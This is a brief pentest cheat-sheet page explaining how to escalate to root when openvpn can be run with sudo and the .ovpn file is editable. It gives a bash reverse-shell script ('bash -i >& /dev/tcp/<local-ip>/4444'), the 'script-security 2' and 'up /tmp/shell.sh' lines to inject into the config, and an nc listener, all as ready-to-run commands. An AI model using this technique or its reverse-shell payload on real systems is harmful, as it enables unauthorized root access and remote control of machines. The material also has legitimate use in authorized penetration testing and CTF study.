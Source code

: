 ```yaml
---
title: Sudo OpenVPN Privilege Escalation
description: Sudo openvpn may be vulnerable to privilege escalation.
tags:
    - Privilege Escalation
ref:
date: 2023-02-17
draft: false
---
```


## Investigation

```bash
(root) /usr/sbin/openvpn /opt/example.ovpn
```

If we can execute **`openvpn`** command as root and we have a **permission of editing** the **`.ovpn`** file, we can escalate to privilege.

<br />

## Exploitation

### 1. Create a Payload

First create a shell script to reverse shell. For example, create **`/tmp/shell.sh`**.  
Replace **`<local-ip>`** with your local ip address.

```bash
#!/bin/bash

bash -i >& /dev/tcp/<local-ip>/4444 0>&1
```

Then change the file permission so that root can execute this script.

```bash
chmod +x /tmp/shell.sh
```

### 2. Edit .ovpn File

Next edit the **`.ovpn`** file.  
We need to add **"script-security 2"** and **"`up /tmp/shell.sh`"** into the header.

```bash
# /opt/example.ovpn
...
script-security 2
up /tmp/shell.sh

<ca>
-----BEGIN CERTIFICATE-----
...
```

### 3. Reverse Shell

In local machine, start a listener.

```bash
nc -lvnp 4444
```

Now execute `openvpn` command as root.

```bash
sudo /usr/sbin/openvpn /opt/example.ovpn
```

This command executes our **`shell.sh`**, so we should get a root shell.
